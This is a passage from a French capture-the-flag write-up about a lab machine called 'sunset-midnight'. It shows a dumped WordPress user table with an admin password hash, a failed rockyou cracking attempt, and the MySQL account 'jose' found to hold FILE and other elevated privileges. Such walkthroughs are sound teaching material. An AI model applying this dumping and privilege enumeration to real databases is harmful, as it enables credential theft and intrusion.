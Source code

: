 ```
Database: wordpress_db
Table: wp_users
[1 entry]
+----+------------------------+------------------------------------+------------+---------------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url               | user_pass                          | user_login | user_email          | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+------------------------+------------------------------------+------------+---------------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://sunset-midnight | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin      | example@example.com | 0           | admin        | admin         | 2020-07-16 19:10:47 | <blank>             |
+----+------------------------+------------------------------------+------------+---------------------+-------------+--------------+---------------+---------------------+---------------------+
```

Malheureusement le hash présent ne tombe pas avec la wordlist `rockyou`.

## Osez José

Avec l'option `--current-user` on apprend que le compte MySQL qui exécute les requêtes se nomme `jose` et l'option `--privileges` nous informe que le compte a des privilèges élevés, notamment le privilège `FILE` permettant la lecture et écriture de fichiers :

```
[*] 'jose'@'localhost' (administrator) [29]:
    privilege: ALTER
    privilege: ALTER ROUTINE
    privilege: CREATE
    privilege: CREATE ROUTINE
    privilege: CREATE TABLESPACE
    privilege: CREATE TEMPORARY TABLES
    privilege: CREATE USER
    privilege: CREATE VIEW
    privilege: DELETE
    privilege: DELETE HISTORY
    privilege: DROP
    privilege: EVENT
    privilege: EXECUTE
    privilege: FILE
    privilege: INDEX
    privilege: INSERT
    privilege: LOCK TABLES
    privilege: PROCESS
    privilege: REFERENCES
    privilege: RELOAD
    privilege: REPLICATION CLIENT
    privilege: REPLICATION SLAVE
    privilege: SELECT
    privilege: SHOW DATABASES
    privilege: SHOW VIEW
    privilege: SHUTDOWN
    privilege: SUPER
    privilege: TRIGGER
    privilege: UPDATE
```
